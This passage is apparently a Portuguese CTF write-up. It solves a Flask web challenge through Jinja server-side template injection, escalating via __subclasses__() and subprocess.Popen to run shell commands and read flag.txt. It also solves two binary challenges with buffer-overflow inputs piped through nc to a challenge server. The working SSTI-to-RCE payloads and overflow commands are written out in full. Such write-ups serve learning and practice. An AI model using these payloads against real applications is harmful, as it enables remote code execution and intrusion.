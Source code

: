 CTF{SQ1_Inj3ct10n_15_5uP3R_53cUR3}

## Eu odeio Flask
**Falha**

Em sistemas com que usam templating como Handlebars, DustJS ou Jinja deve-se tomar
cuidado para que o usuário não consiga injetar código que será interpretado pela engine
e possívelmente chamar helpers ou executar código maliciosos.

**Solução**

Sabendo que o desafio era um servidor de Flask, tentei encontrar formas de entrar com
informações que pudessem ser processadas como templates do Jinja, depois de muitas
tentativas sem sucesso, descobri que tinha um query parameter `name` que era mostrado
na página. Ao testar ele por SSTI, descobri que era vulnerável!

```bash
> curl http://iloveflask.zup.com.br/?name=\{\{3*3\}\}
...
9
...
```

Agora foi só listar as classes que estariam disponíveis para encontrar alguma que eu
pudesse utilizar para escalar o SSTI para RCE:
`http://iloveflask.zup.com.br/?name={{%27%27.__class__.__mro__[1].__subclasses__()}}`

Identificando que a classe `subprocess.Popen` estava no índice 222, a utilizei para
listar os arquivos da pasta: `http://iloveflask.zup.com.br/?name={{%27%27.__class__.__mro__[1].__subclasses__()[222](%27ls%27,%20shell=True,stdout=-1).communicate()}}`

Encontrei o arquivo flag.txt e li seu conteúdo da mesma forma:
`http://iloveflask.zup.com.br/?name={{%27%27.__class__.__mro__[1].__subclasses__()[222](%27cat%20flag.txt%27,%20shell=True,stdout=-1).communicate()}}`

# pwn
## pwn1
Abri o executável usando Hopper e identifiquei que as primeiras perguntas chamavam o `strcmp` com valores que estávam no próprio executável (que pude ler pelo Hopper também):
* Sir Lancelot of Camelot
* To seek the Holy Grail.

Contudo, a última pergunta comparava uma posição de memória com um número fixo. Bastou achar a quantidade certa de caracteres para sobrescrever o local de memória que era comparado e colocar o valor constante com qual ele era comparado:
```bash
echo -e "Sir Lancelot of Camelot\nTo seek the Holy Grail.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc8\x10\xa1\xde" | nc 18.228.166.40 4321
```

## pwn2
Abri o executável usando Hopper e percebi que existiam funções `one`, `two` e `print_flag`. Tentei um overflow novamente e ao verificar os logs do `dmesg` o endereço do ponteiro de programa (endereço de onde as instruções eram executadas) era sobrescrito pelos caracteres que entrei. Portanto, bastou entrar com a quantidade certa de caracteres e o endereço da função `print_flag` e o programa saltou para sua execução.
```bash
python2 -c "print('A'*30 + '\xd8\x06\x00\x00')" | nc 18.228.166.40 4322
```
